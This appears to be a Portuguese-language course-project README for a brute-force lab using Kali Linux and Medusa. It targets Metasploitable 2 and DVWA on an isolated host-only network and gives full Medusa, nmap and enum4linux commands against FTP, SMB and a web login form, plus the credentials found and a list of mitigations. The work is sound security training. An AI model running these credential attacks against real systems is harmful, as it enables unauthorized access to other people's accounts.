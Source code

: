 # Projeto de Segurança: Ataques de Força Bruta com Kali Linux e Medusa

## Introdução
Este projeto foi desenvolvido como parte do curso de Segurança da Informação da DIO, com o objetivo de explorar técnicas de ataques de força bruta em ambientes controlados, utilizando **Kali Linux**, **Medusa** e **Metasploitable 2**. O foco é aprender sobre segurança ofensiva e práticas de mitigação.

## Configuração do Ambiente

### Ferramentas Utilizadas
- **VirtualBox**: Versão 7.0
- **Kali Linux**: Versão 2025.1
- **Metasploitable 2**: Ambiente vulnerável para testes

### Configuração da Rede
- **Tipo de Rede**: Host-Only (`192.168.56.0/24`)
- **Passos**:
  1. Instalação do VirtualBox e criação da rede host-only.
  2. Configuração das VMs Kali Linux e Metasploitable 2.
  3. Verificação de conectividade com o comando:
     ```bash
     ping 192.168.56.101
     ```

## Configuração e Testes

### 1. Criação de Wordlists
Para os testes, criamos wordlists simples manualmente. Em cenários reais, recomenda-se usar wordlists mais robustas disponíveis na internet.

- **Usuários** (`users.txt`):
  ```bash
  echo -e "admin\nadministrador\nuser\nmsfadmin\nguest" > users.txt
  ```
- **Senhas** (`passwords.txt`):
  ```bash
  echo -e "password\nadmin\n123456\n12345678\nwelcome\nwelcome123\nmsfadmin\nqwerty123" > passwords.txt
  ```
- **Verificação**:
  ```bash
  less users.txt
  less passwords.txt
  ```
- **Observação**: O `\n` é usado para quebra de linha. Essas wordlists serão utilizadas em todos os testes.

### 2. Escaneamento de Portas com Nmap
Antes dos ataques, usamos o **Nmap** para listar portas abertas e versões dos serviços no Metasploitable 2:
```bash
nmap -sV -p 21,22,139,443,445,80,8080 192.168.56.101
```
- **Observação**: O Nmap suporta vários parâmetros, como faixas de portas e IPs, permitindo exploração detalhada.

### 3. Realização dos Ataques

#### Ataque 1: Servidor FTP
- **Comando**:
  ```bash
  medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M ftp -t 6
  ```
- **Descrição**: Tentativa de força bruta no serviço FTP com 6 threads (`-t 6`) para maior eficiência.
- **Resultado**: Credenciais válidas (ex.: `msfadmin:msfadmin`).
- **Captura de Tela**: `/images/Medusa_FTP.jpg`.
- - **Captura de Tela**: `/images/Acesso_FTP.jpg`.

#### Ataque 2: Servidor SMB
- **Enumeração de Usuários**:
  ```bash
  enum4linux -U 192.168.56.101 > users.txt
  ```
  - Este comando enumera usuários SMB, que podem ser usados para atualizar a wordlist `users.txt`.
- **Ataque com Medusa**:
  ```bash
  medusa -h 192.168.56.101 -U users.txt -P password.txt -M smbnt -t 6
  ```
- **Descrição**: Password spraying com a senha comum `password` para todos os usuários.
- **Resultado**: Credenciais válidas (ex.: `msfadmin:password`).
- **Captura de Tela**: `/images/SMB_1.jpg`.

#### Ataque 3: DVWA (Formulário Web)
- **Comando**:
  ```bash
  medusa -h 192.168.56.101 -u admin -P passwords.txt -M http -m DIR:/dvwa -m FORM:login.php -m FORM-DATA:"post?username=^USER^&password=^PASS^&Login=Login"
  ```
- **Descrição**: Ataque de força bruta no formulário de login do DVWA. O formulário HTML deve ser inspecionado para ajustar os parâmetros (`username`, `password`, botão `Login`).
- **Resultado**: Credenciais válidas (ex.: `admin:password`).
- **Captura de Tela**: `/images/DVWA.jpg`.
- **Captura de Tela**: `/images/DVWA_2.jpg`.
- **Observação**: Consulte o código-fonte do formulário para garantir que os parâmetros estejam corretos.

## Medidas de Mitigação
- **Senhas Fortes**: Use senhas com 12+ caracteres, combinando letras, números e símbolos.
- **Limitação de Tentativas**: Configure bloqueio após 3-5 tentativas falhas (ex.: Fail2Ban).
- **Firewall**: Restrinja portas desnecessárias (ex.: `iptables -A INPUT -p tcp --dport 21 -j DROP`).
- **Protocolos Seguros**: Substitua FTP por SFTP e desative contas SMB padrão.
- **Monitoramento**: Use sistemas de detecção de intrusão (ex.: Snort).
- **Atualizações**: Mantenha sistemas e serviços atualizados.

## Estrutura do Repositório
```
meu-projeto-seguranca/
├── README.md
├── wordlists/
│   ├── users.txt
│   ├── passwords.txt
├── images/
│   ├── screenshot_ftp_success.png
│   ├── screenshot_smb_enum.png
│   ├── screenshot_dvwa_login.png
```
## Lições Aprendidas
- A importância de wordlists bem elaboradas para ataques de força bruta.
- A necessidade de configurar ambientes de teste isolados (rede host-only).
- A relevância de inspecionar formulários HTML para ataques web.
- A importância de práticas de segurança para proteger sistemas reais.
